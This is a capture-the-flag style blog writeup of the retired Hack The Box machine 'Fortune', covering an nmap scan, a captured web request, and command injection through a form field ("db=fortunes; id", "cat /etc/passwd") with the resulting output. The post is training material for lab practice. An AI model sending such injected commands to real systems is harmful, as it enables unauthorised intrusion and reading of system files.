 ```yaml
---
layout: post
title:  "Hack The Box: 'Fortune' Writeup"
image: ''
date:   2019-08-05 00:09:53
tags:
- hackthebox
- pkcs12 certificate
- RCE
- nfs share
- pgadmin4
- sqlite3
- crypto

description: ''
categories:
- Hack The Box
---
```


<style>
applause-button {
		margin: auto;
		overflow: hidden;
	}

	.header-site .site-title {
      	padding-top: 5px;
      	color: white;
      	text-align: center;
      	font-weight: bold;
      	padding-left: 19px;
	}
	
	.fortune-img {
		max-width: 75%;
	}

	.post-content img { 
		margin: 1.875rem auto;
		display: block;
	}
</style>
  <!-- add the button style & script -->
  <link rel="stylesheet" href="/assets/css/applause-button.css" />
  <script src="/assets/js/applause-button.js"></script>

<img src="/assets/img/writeups/HTB-FORTUNE/HTB-FORTUNE-BADGE.PNG" class="fortune-img" alt="Hack The Box - Fortune">

<p><br></p>
### TL;DR 
There might not necessarily be anything "new" in this box if you've done all of the previous ones, but it's my absolute personal favorite. Thank you so much <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a> for creating it. I was so sad when it retired! 😢
<p><br></p>

### Overview

The `Fortune` machine on Hack The Box (created by <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a>) is a retired 50 point OpenBSD machine with some pretty interesting parts to it. If you have completed all of the previous boxes on HackTheBox, then `Fortune` should be pretty simple, as there is nothing particularly new introduced.
<p><br></p>

The box starts with simple web enumeration to locate RCE found in the site's `db` variable, which occurs when a semi colon (;) is appended to the end of the `db`. Next, some files are located via the RCE that can be used to create a PKCS12 certificate which permits access to port 443. From there, an SSH key is located to access the user called `nfsuser` and escalate to the user `charlie` by mounting a newly found nfs share and using `su` to access `charlie` with a local user that has the same UID. SSH keys for `charlie` are then used to access the user via SSH and enumerate further.
<p><br></p>

Finally, there is a `pgadmin4` database running on the box which contains hashes for the root password. A file called `crypto.py` is utilized for `pgadmin4's` encoding/decoding process, and can be used here to decode the root password and ultimately grab the flag.
<p><br></p>

### Nmap Scan

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@rattLR:~/HTB-FORTUNE# nmap -sC -sV -A -Pn 10.10.10.127

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-24 11:27 EST
Nmap scan report for 10.10.10.127
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (EdDSA)
80/tcp  open  http       syn-ack OpenBSD httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https? syn-ack
|_ssl-date: TLS randomness does not represent time
</code></pre></div></div>

So, it appears port `443` is HTTPS (as expected), but it requires an SSL certificate to access it. I'll leave it alone for now because of this. However, port `80` proves to be quite interesting.
<p><br></p>

### Web Enumeration

Here's what I discovered upon navigating to `http://10.10.10.127/` in my browser:

<img src="/assets/img/writeups/HTB-FORTUNE/fortune-homepage.PNG" class="fortune-img" alt="Hack The Box - Fortune Homepage">

Hmm... 

Let's try capturing a request with `Burp Suite`!

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes
```

The `db` variable looks pretty spicy! 🌶️

After running `wfuzz`, I discovered I could append a semi colon (;) to `db` and execute commands on the box, like so:

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes; id
```

And the response:
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Date: Wed, 24 Jul 2019 12:27:19
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)


</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
```

Nice! We have code execution. Let's have a look around to see what else we can find. 
<p><br></p>

### Enumerating Users & Obtaining User.txt

(Shortened output for readability):

```
db=fortunes;cat /etc/passwd

charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

Well, well, well... It would appear we have three different users here. They are `charlie`, `bob`, and `nfsuser`. Immediately, `nfsuser` appears interesting to me given the naming convention. The username `nfsuser` can easily be attributed to an `nfs share`! Now, this is great and all, but I still don't know how to access these users, nor am I able to add my own `ssh` keys..
<p><br></p>
<div align="center">
	<h3> Thanks for reading! </h3>
</div>
<div align="center">
<!-- add the button! -->
<applause-button style="width: 58px; height: 58px;" color="#5d4d7a"/>
</div>
<div align="center">
	<a href="https://www.hackthebox.eu/profile/39047">
		<img htb-logo="image" src="https://www.hackthebox.eu/badge/image/39047" alt="Hack The Box">
	</a>
</div>